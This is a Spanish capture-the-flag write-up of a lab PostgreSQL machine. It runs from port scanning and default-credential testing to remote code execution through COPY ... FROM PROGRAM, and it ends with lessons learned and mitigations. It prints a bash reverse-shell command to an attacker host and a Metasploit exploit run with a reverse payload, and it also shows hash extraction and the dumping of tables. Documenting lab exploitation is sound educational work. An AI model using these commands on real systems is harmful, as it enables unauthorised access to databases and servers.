## Información General

|Campo|Detalle|
|---|---|
|**Plataforma**|whoami-labs|
|**Máquina**|PostgreSQL|
|**IP objetivo**|172.17.0.2|
|**Sistema operativo**|Linux (Debian)|
|**Servicio vulnerable**|PostgreSQL 12.22 (Debian 12.22-4.pgdg11+1)|
|**Puerto**|5432/tcp|
|**Dificultad**|Fácil|
|**Vector de compromiso**|Credenciales débiles/por defecto + `COPY ... FROM PROGRAM` (RCE)|

---

## Resumen del Ataque

La máquina expone únicamente el servicio PostgreSQL en el puerto 5432. El servidor acepta las credenciales por defecto `postgres:postgres`, lo que permite autenticación completa como superusuario. Una vez dentro, se confirma el privilegio de superusuario (`usesuper = t`), se extrae el hash de la contraseña desde `pg_shadow` (confirmando `postgres:postgres` vía crackstation.net), y se enumera a fondo el contenido de las bases de datos disponibles, encontrando en `productiondb` una tabla de usuarios con credenciales en texto plano y una API key. Se descarta que dichas credenciales correspondan a cuentas reales del sistema operativo (solo existen `root` y `postgres` con shell válida). Finalmente, se abusa de la funcionalidad `COPY ... FROM PROGRAM` — exclusiva de superusuarios — para lograr ejecución de comandos del sistema operativo y obtener una reverse shell. Desde ahí se localizan y capturan las flags.

---

## Técnicas Usadas

- Escaneo de puertos completo con Nmap (`-p-`) y enumeración de versión/servicio (`-sC -sV`)
- Fuerza bruta / prueba de credenciales por defecto con el módulo `postgres_login` de Metasploit
- Enumeración de bases de datos, roles y privilegios vía `psql` (`\l`, `\du`)
- Extracción de hashes desde `pg_shadow` y cracking online (crackstation.net)
- Verificación de privilegios de superusuario (`usesuper`)
- Enumeración exhaustiva de esquemas y tablas en todas las bases de datos (`\dn`, `pg_tables`) para descartar datos ocultos fuera de `public`
- Volcado de tablas de aplicación (`users`, `config`) en busca de credenciales y secretos
- Verificación cruzada de credenciales de aplicación contra cuentas reales del sistema operativo (`/etc/passwd`, `su`)
- Explotación de `COPY ... FROM PROGRAM` para RCE (relacionado con CVE-2019-9193) → reverse shell manual con `bash -i >& /dev/tcp/...`
- Estabilización de TTY con `script /dev/null -c bash` + `stty raw -echo`
- Lectura de archivos remotos con el módulo `postgres_readfile` (confirmando `/etc/passwd`)
- Explotación automatizada con el exploit `postgres_copy_from_program_cmd_exec` de Metasploit (payload `cmd/unix/reverse_perl`)

---

## Desarrollo

### 1. Reconocimiento de puertos

Escaneo completo de puertos TCP:

```bash
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



Único puerto abierto: PostgreSQL en 5432.

### 2. Enumeración de versión y servicio

```bash
nmap -p 5432 -sC -sV -oN allports 172.17.0.2
```



Se identifica PostgreSQL 12.14-12.22, con certificado TLS autofirmado (`commonName=localhost`).

### 3. Prueba de credenciales por defecto (Metasploit)

```bash
msfconsole -q
msf > use auxiliary/scanner/postgres/postgres_login
msf auxiliary(scanner/postgres/postgres_login) > set rhosts 172.17.0.2
msf auxiliary(scanner/postgres/postgres_login) > run
```



Las credenciales por defecto `postgres:postgres` son válidas.

### 4. Conexión manual y enumeración con psql

```bash
psql -h 172.17.0.2 -U postgres -d template1
```



Listado de bases de datos:

```bash
\l
```



Se observan cuatro bases: `postgres`, `productiondb`, `template0`, `template1`.

Listado de roles:

```bash
\du
```



### 5. Extracción de hash de contraseña

```bash
SELECT usename, usesuper, usecreatedb, userepl, passwd 
FROM pg_shadow;
```





El hash MD5 se envía a crackstation.net, confirmando la contraseña en texto plano como `postgres`.

### 6. Confirmación de privilegios de superusuario

```bash
SELECT current_user, usesuper FROM pg_user WHERE usename = current_user;
```



Con `usesuper = t` confirmado, queda abierta la vía de RCE mediante `COPY ... FROM PROGRAM`.

### 7. Exploración de la base de datos `productiondb`

Cambio a la base de datos que no se había explorado en el intento anterior:

```bash
\c productiondb
\dt
```



Volcado de ambas tablas:

```bash
SELECT * FROM users;
```



```bash
SELECT * FROM config;
```



Se obtienen cuatro usuarios de aplicación con contraseñas en texto plano y una API key con formato de clave live de Stripe (probablemente un señuelo dentro del entorno de laboratorio).

### 8. Verificación de otros esquemas y bases de datos

Se descarta que haya datos ocultos fuera del esquema `public` en `productiondb`:

```bash
\dn
```



```bash
SELECT schemaname, tablename 
FROM pg_tables 
WHERE schemaname NOT IN ('pg_catalog', 'information_schema');
```



Resultado: solo existe el esquema `public`, con las mismas dos tablas ya identificadas (`users`, `config`).

Se revisan también `postgres` y `template1` por completitud:

```bash
\c postgres
\dt
```



```bash
\c template1
\dt
```



La tabla `cmd_exec` es un resto de una sesión anterior (creada durante una explotación previa de `COPY ... FROM PROGRAM`), presente también en `template1`. Al consultarla, está vacía — confirmando que no queda ejecución pendiente ni datos residuales útiles.

### 9. Obtención de reverse shell

Listener en la máquina atacante:

```bash
nc -lvnp 4444
```

Desde psql:

```bash
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"';
```



Shell obtenida como usuario `postgres` a nivel de sistema operativo.

Estabilización de la TTY:

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

### 10. Verificación de credenciales de aplicación contra el sistema operativo

Se intenta comprobar si alguna de las credenciales encontradas en la tabla `users` (`admin`, `operator`, `guest`, `dbadmin`) corresponde a una cuenta real del sistema:

```bash
su dbadmin
```



Se confirma revisando las cuentas de sistema con shell válida:

```bash
cat /etc/passwd | grep -v nologin
```



Solo `root` y `postgres` tienen shell interactiva. Las credenciales de la tabla `users` son exclusivamente de la aplicación simulada y no tienen equivalente a nivel de sistema operativo — pista descartada.

### 11. Localización y captura de flags

```bash
find / -name "flag.txt" -o -name "flag" -o -name "*.flag" 2>/dev/null
```



```bash
cat /tmp/flag.txt
```



```bash
cat /var/lib/postgresql/flag.txt
```



Ambos archivos contienen la misma flag, confirmando el mismo resultado obtenido en la sesión anterior:

```
POSTGRESQL{w34k_cr3d3nt14ls_4nd_c0py_fr0m_pr0gr4m}
```

### 12. Validación adicional: lectura de archivos vía Metasploit

Como comprobación alternativa de la lectura de archivos del sistema sin pasar por shell:

```bash
msfconsole -q
msf > use auxiliary/admin/postgres/postgres_readfile
set RHOSTS 172.17.0.2
set USERNAME postgres
set PASSWORD postgres
set RFILE /etc/passwd
run
```





### 13. Validación adicional: explotación automatizada con Metasploit

Como alternativa al método manual, se usa el exploit dedicado:

```bash
use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
set RHOSTS 172.17.0.2
set RPORT 5432
set USERNAME postgres
set PASSWORD postgres
set DATABASE template1
show targets
```



```bash
set target 1
set payload cmd/unix/reverse_perl
set LHOST 172.17.0.1
set LPORT 1234
exploit
```



```bash
find / -name "flag.txt" -o -name "flag" -o -name "*.flag" 2>/dev/null
```



```bash
cat /tmp/flag.txt
```



```bash
cat /var/lib/postgresql/flag.txt
```



Resultado: shell obtenida por vía automatizada, confirmando la misma flag ya capturada manualmente.

---

## Lecciones Aprendidas

- Las credenciales por defecto (`postgres:postgres`) siguen siendo un vector de compromiso completamente viable y deben probarse siempre como primer paso en servicios de bases de datos expuestos.
- La funcionalidad `COPY ... FROM PROGRAM` (disponible desde PostgreSQL 9.3+) convierte un simple acceso de base de datos con privilegios de superusuario en ejecución arbitraria de comandos del sistema operativo — no es necesario un CVE adicional, es una característica documentada de PostgreSQL que se vuelve crítica si el usuario tiene `usesuper = true`.
- `pg_shadow` expone hashes de contraseña reutilizables entre servicios; un hash MD5 simple como este se crackea de forma trivial con servicios online.
- Metasploit ofrece módulos equivalentes a cada paso manual (login, hashdump, readfile, RCE), útiles para validar hallazgos o automatizar el flujo, pero comprender el paso manual detrás de cada módulo es clave para escenarios donde Metasploit no esté disponible.
- No toda credencial encontrada en tablas de aplicación implica acceso a nivel de sistema operativo; es fundamental verificar contra `/etc/passwd` y probar con `su <usuario>` antes de asumir un vector de escalada, evitando así tiempo perdido en pistas falsas.
- Enumerar exhaustivamente todos los esquemas y bases de datos disponibles (no solo la base por defecto) puede revelar datos de aplicación con valor real, incluso cuando el objetivo final del CTF es la ejecución de comandos.

---

## Medidas de Mitigación

- Cambiar inmediatamente las credenciales por defecto de PostgreSQL tras la instalación; nunca dejar `postgres:postgres` en producción.
- Restringir el acceso de red al puerto 5432 solo a hosts que realmente lo necesiten (firewall / `pg_hba.conf` con reglas estrictas por IP).
- Evitar otorgar el rol `SUPERUSER` salvo estrictamente necesario; usar roles con privilegios mínimos (`GRANT` selectivo) para aplicaciones.
- Revocar o restringir el privilegio `pg_execute_server_program` (PostgreSQL 11+) a roles que realmente necesiten `COPY ... FROM/TO PROGRAM`.
- Monitorizar y alertar sobre el uso de `COPY ... FROM PROGRAM` en logs de auditoría, ya que es un indicador fuerte de intento de RCE.
- Aplicar hashing más robusto (SCRAM-SHA-256, ya soportado desde PostgreSQL 10+) en lugar de MD5 para el almacenamiento de contraseñas.

